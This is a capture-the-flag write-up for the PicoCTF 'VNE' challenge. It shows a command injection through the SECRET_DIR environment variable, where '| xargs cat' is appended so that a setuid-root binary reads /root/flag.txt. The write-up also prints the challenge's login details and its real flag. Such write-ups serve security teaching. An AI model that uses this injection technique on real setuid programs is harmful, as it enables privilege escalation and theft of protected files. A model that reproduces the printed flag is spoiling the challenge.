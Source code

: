 # PicoCTF - VNE

## Challenge Overview
**Title:** VNE  
**Category:** Binary Exploitation  
**Difficulty:** Medium  

## Description
We've got a binary that can list directories as root, try it out !! ssh to saturn.picoctf.net:61728, and run the binary named "bin" once connected. Login as ctf-player with the password, fd7746b4

## Analysis

We connect to the server and find the `bin` executable
```
$ ls -l
total 20
-rwsr-xr-x 1 root root 18752 Aug  4  2023 bin
```

We try to run and get the following error
```
$ ./bin
Error: SECRET_DIR environment variable is not set
```

So we need to set the `SECRET_DIR` to the directory we want to see.  
I will check `/root` which is a common location for flag placement.
```
$ SECRET_DIR=/root ./bin
Listing the content of /root as root: 
flag.txt
```

We found the flag.  
Now we need to get its contents.  

We can assume that `bin` internally calls `ls` and appends `SECRET_DIR` at the end.  
If this is correct, we can include more instructions after the directory we want.  
To test this I will try to add an `ls` flag.
```
$ SECRET_DIR="/root/flag.txt -l" ./bin
Listing the content of /root/flag.txt -l as root: 
-rw------- 1 root root 41 Aug  4  2023 /root/flag.txt
```
And it worked.  
Now we need to pipe the output of `bin`, which is the file name, to `cat`.  
```
l$ SECRET_DIR="/root/flag.txt | xargs cat" ./bin
Listing the content of /root/flag.txt | xargs cat as root: 
picoCTF{____REDACTED____}
```

## Solution

- Using `bin` search inside `/root`
- Since `bin` is using `ls` internally, append a `cat` instruction at the end of the directory we specify

### Execution Example:
```
$ SECRET_DIR="/root/flag.txt | xargs cat" ./bin
Listing the content of /root/flag.txt | xargs cat as root: 
picoCTF{Power_t0_man!pul4t3_3nv_fc3ff2c9}
```